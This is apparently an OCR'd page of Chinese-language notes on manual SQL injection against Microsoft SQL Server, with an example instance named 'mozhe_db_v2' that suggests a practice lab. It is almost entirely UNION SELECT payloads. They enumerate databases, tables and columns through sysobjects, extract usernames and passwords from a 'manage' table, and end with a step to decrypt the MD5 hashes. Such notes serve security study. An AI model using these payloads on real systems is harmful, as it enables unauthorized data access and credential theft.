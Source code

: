 ```bash

# 第六步：查找列名称：
?id=2 and 1=2 union all select 1,(select top 1 col_name(object_id('manage'),1) from sysobjects),'3',4 #替换 col_name(object_id('manage'),1) 中的1 依次为 2，3，4查出所有列名。

# 第七步：查取数据: 
?id=2 and 1=2 union all select 1,(select top 1 username from manage),'3',4     # 获取用户名
?id=2 and 1=2 union all select 1,(select top 1 password from manage),'3',4     # 获取密码 

# 第八步：MD5 解密

```





## 注入流程

**判断是否为mssql数据库：**` and (select count(*) from sysobjects) >0`

**注入流程：**

```bash
# 0.1判断注入
and 1=1
and 1=2

# 0.2回显，判断数据库类型
And 1=2

# 0.3判断字段
order by ...


# 1.判断字段数量和类型
union all select null,null,null,null
union all select '1','2','3','4'
union all select '1','2',db_name(),'4'

# 2.联合查询
And 1=2 Union select ……
And 1=2 union all select ……
#注：判断字符是否特殊
And 1=2 union all select 1,2,’3’,4

# 2.1 猜数据库名
And 1 =2 union all select 1,db_name(),3,4
And 1 =2 union all select 1,db_name(1),3,4
And 1 =2 union all select 1,db_name(2),3,4
And 1 =2 union all select 1,db_name(3),3,4
……


# 3.猜表名
And 1=2 union all select 1,(select top 1 name from 数据库名.dbo.sysobjects where xtype=’u’),3,4
#3.1查看其它表名：
And 1=2 union all select 1,(select top 1 name from 数据库名.dbo.sysobjects where xtype=’u’ and name not in (‘表名’)),3,4

#实例：
union all select 1,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u'),'3',4

union all select 1,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage')),'3',4

```